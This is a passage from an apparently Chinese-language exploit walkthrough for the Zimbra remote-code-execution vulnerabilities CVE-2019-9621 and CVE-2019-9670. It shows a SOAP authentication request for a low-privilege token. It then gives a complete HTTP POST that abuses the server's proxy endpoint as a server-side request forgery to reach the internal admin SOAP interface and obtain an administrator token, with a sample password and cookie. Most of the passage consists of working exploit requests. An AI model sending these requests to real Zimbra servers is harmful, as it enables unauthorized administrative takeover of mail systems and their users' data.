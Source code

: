     <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAccount">  
            <account by="adminName">zimbra</account>  
            <password>上面得到的密码</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId29.png)

从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

    POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
    Host: www.0-sec.org:7071  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/
    Content-Type: application/soap+xml  
    Content-Length: 465  
    Connection: close  
    Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
    Upgrade-Insecure-Requests: 1  

    <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAdmin">  
            <account by="adminName">zimbra</account>  
            <password>GzXaU76_s5</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>

![](resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId31.png)
